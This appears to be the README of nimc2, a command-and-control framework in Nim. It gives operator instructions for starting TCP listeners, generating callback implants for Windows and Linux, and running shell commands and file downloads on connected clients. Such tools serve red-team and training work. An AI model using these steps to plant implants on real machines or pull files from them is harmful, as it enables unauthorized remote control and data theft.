 ## Installing on Linux

1. Install git, nim and the mingw toolchain: `apt install git nim mingw-w64`
2. Clone the repo: `git clone https://github.com/d4rckh/nimc2`
3. Cd into the repo: `cd nimc2`
4. Install all the required packages: `nimble install`
5. Add execute permission to server.sh file: `chmod +x ./server.sh`
6. Execute nimc2 server by running `./server.sh`

## Usuage

- The nimc2 server is based on a command line interface and it can be started using the `./server.sh` bash script in the root directory.
- You can type your commands as soon as you see the nimc2 main prompt: `(main) nimc2 >`

## Creating a listener

To create a listener use the `startlistener` command, only TCP listeners are currently supported. You can start a TCP listener using the following command: `startlistener tcp (ip) (port)`. Examples:
- `startlistener tcp 127.0.0.1 1337`: start a TCP listener listening on `127.0.0.1:1337`
- `startlistener tcp 0.0.0.0 1337`: start a TCP listener listening on any address, port `1337`
- `startlistener tcp 192.168.0.19 1337`: start a TCP listener listening on `192.168.0.19:1337`

Once you created your listener, you can view it using the `listeners` command.

## Generating an implant

Generating an implant is also very easy and only takes one command: `generateimplant (listener type) (ip) (port) (platform)` or `generateimplant (listener type) (platform)`. The listener identifier is composed of 2 parts: the listener type and the listener id (e.g. tcp:0, tcp:1). Examples:
- `generateimplant tcp 127.0.0.1 1337 windows`: generate an implant for windows, connecting to `127.0.0.1:1337`
- `generateimplant tcp 127.0.0.1 1337 linux`: generate an implant for linux, connecting to `127.0.0.1:1337`
- `generateimplant tcp:0 linux`: generate an implant for linux, connecting to the `tcp:0` listener
- `generateimplant tcp:0 windows`: generate an implant for windows, connecting to the `tcp:0` listener

Clients will try to auto-connect to your server every 5 seconds. This is not customizable yet.

**Warning** You can't use `generateimplant (listener type) (platform)` if your listener is listening on IP `0.0.0.0`, you must specify an IP and port in that case!

## Interacting with clients

When a client connects to your server, you will get a log informing you. You can view the clients connected to your server using 2 commands:
- `clients` will show you all the clients that were and are connected currently. 
- `clientlisteners` will show you all the listeners along the clients connected to each of them. This is useful to see how your clients are connected to your server

You can begin interacting with a client using the `interact` command. Example:
- `interact 0`: start an interaction with the client with ID 0

You will notice that your prompt changed to something like this: `(username@hostname) nimc2 >`. This means you are currently interacting with a client and can send commands to it, for example:
- `shell`: enter shell mode, all commands entered afterwards (except `back` which will exit shell mode) will be sent using `shell [command]`
- `shell whoami`: run whoami on the client
- `download c:\users\andrei\desktop\flag`: download the c:\users\andrei\desktop\flag file (might not work with bigger files, be cautious!)
- `msgbox Title / Caption`: send a message box **(only windows supported!)**
- `cmd [command]`: run a command via cmd.exe **(only windows supported!)**

## Getting more help

You can use the `help` command to print all commands and `help [command name]` to get more info about a specific command

## Common errors

### 1. `Error: cannot open file: winim/inc/lm`
You forgot to run `nimble install`

### 2. Error on Linux when compiling for Windows
You might need to install the mingw tool-chain package:
```
apt install mingw-w64   # Ubuntu
yum install mingw32-gcc
yum install mingw64-gcc # CentOS - requires EPEL
brew install mingw-w64  # OSX
```
